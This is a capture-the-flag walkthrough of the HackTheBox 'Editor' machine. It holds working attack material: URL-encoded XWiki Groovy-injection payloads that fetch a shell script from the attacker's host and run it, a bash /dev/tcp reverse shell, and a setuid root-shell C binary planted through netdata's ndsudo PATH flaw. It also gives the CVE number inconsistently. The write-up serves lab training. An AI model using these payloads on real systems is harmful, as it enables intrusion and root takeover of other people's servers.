









# Editor

```
Difficulty: Easy
Operating System: Linux
Hints: True
```


#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, /etc/hosts | Identified open ports and domain `editor.htb` |
| 2 | (Web) | XWiki Enumeration | Found XWiki version `15.10.8` and associated CVE-2025-24983 |
| 3 | xwiki | Groovy Script Injection (CVE-2025-24983) | Executed remote command to download and run a reverse shell script |
| 4 | xwiki | Shell Enumeration | Gained a shell as the `xwiki` user and identified user `oliver` |
| 5 | xwiki -> oliver | File Enumeration | Found `oliver`'s SSH password (`theXXXXXXXeam99`) in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` |
| 6 | oliver | SSH Login | Gained an SSH shell as `oliver` and retrieved `user.txt` |
| 7 | oliver | Port Enumeration | Used `ss -tulnp` to find `netdata` service listening on `127.0.0.1:19999` |
| 8 | oliver | SSH Local Port Forwarding | Forwarded port `19999` to `localhost` to access the `netdata` dashboard |
| 9 | oliver | Netdata Vulnerability (CVE-2024-32019) | Identified a local privilege escalation vulnerability in `netdata` version `1.45.2` |
| 10 | oliver -> root | Custom Executable & PATH Manipulation | Exploited `ndsudo` to run a malicious binary (`nvme`) with root privileges |
| 11 | root | Root Shell | Gained a `root` shell and retrieved `root.txt` |
```


#### Initial Enumeration
First, I performed an nmap scan and found several open ports. The most interesting finding was the domain editor.htb, which I added to my /etc/hosts file.

Bash

```
sudo nano /etc/hosts
<MACHINE_IP> editor.htb
```
Navigating to http://editor.htb in a browser revealed a code editor interface. Further enumeration showed a service running on port 8080, which turned out to be XWiki, an open-source wiki platform.


### Foothold and user.txt
The XWiki instance was running version 15.10.8. A quick search for this version, in combination with "XWiki", led me to a vulnerability with the CVE ID CVE-2025-24983.

I searched for an exploit for this CVE and found a helpful Python script on GitHub: https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py. This exploit allows for remote code execution via a Groovy script injection.

The exploitation process involved two main steps: uploading a reverse shell script and then executing it.

First, I created a simple reverse shell script named shell.sh:

Bash

```
cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
```

Next, I hosted this script on my local machine using a Python web server.

Bash

```
python -m http.server 80
```



From a browser, I used the following URL to upload the shell.sh script to the target machine's /tmp directory. I made sure to replace <YOUR_IP> with my IP address.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://<YOUR_IP>/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

With the file uploaded, I set up a netcat listener on my machine.

Bash
```
nc -lnvp 4444 

##OR 

python3 penelope.py -i tun0 4444
```
Finally, I used a second browser tab with another URL to execute the uploaded script, which immediately gave me a reverse shell as the xwiki user.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Note: If the shell doesn't connect, it may be necessary to run the upload and execute commands again.

The shell connected, and I confirmed my user was xwiki. I then checked the /etc/passwd file and identified a user named oliver in the /home directory.

To escalate my privileges from xwiki to oliver, I began looking for credentials. I found a potentially useful configuration file at /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml.

Bash

```
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

The output contained several passwords, including theXXXXXXXXXX99. I attempted to use this password to log in via SSH as the user oliver, and it was successful.



Bash

```
ssh oliver@editor.htb
```

With the SSH shell, I was able to retrieve the user.txt flag.

### Privilege Escalation and root.txt

Once logged in as oliver, I checked for potential privilege escalation vectors. My first attempt was to check sudo permissions, but this was not fruitful.

Bash

```
oliver@editor:~$ sudo -l
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

Next, I enumerated network sockets with ss -tulnp to identify any services running locally.

Bash

```
oliver@editor:~$ ss -tulnp
```

The output showed a service listening on port 19999 on the loopback address (127.0.0.1), which was identified as netdata.

To interact with this service, I used SSH local port forwarding to tunnel the port to my local machine.

Bash

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```



By navigating to http://localhost:19999 in my browser, I could access the netdata dashboard. The dashboard indicated that the service was running version 1.45.2 and needed to be updated.



A quick search for netdata 1.45.2 revealed a local privilege escalation vulnerability, CVE-2024-32019. The vulnerability's Proof of Concept (PoC) involves using a specific ndsudo command to execute an arbitrary binary with root privileges.

The PoC steps are as follows:

Create a malicious executable with a name that ndsudo expects (e.g., nvme).

Place the executable in a writable path (e.g., /tmp).

Modify the PATH environment variable to include this path.

Run ndsudo with the designated command.

I created a C file named malicious.c that would spawn a root shell when executed.

C

```
// mal.c
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```



I then compiled this file, naming the output nvme.

Bash

```
gcc -o nvme malicious.c
```

After compiling, I started a Python server on my local machine to host the nvme binary.



Bash

```
python -m http.server 80
```


Finally, from my oliver shell, I downloaded the binary, made it executable, updated my PATH, and executed the vulnerable command to get a root shell.

Bash

```
cd /tmp
wget http://<YOUR_IP>/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```


### Root



Executing the command immediately dropped me into a root shell, allowing me to retrieve the root.txt flag from the /root directory.


**Pwned! Editor**
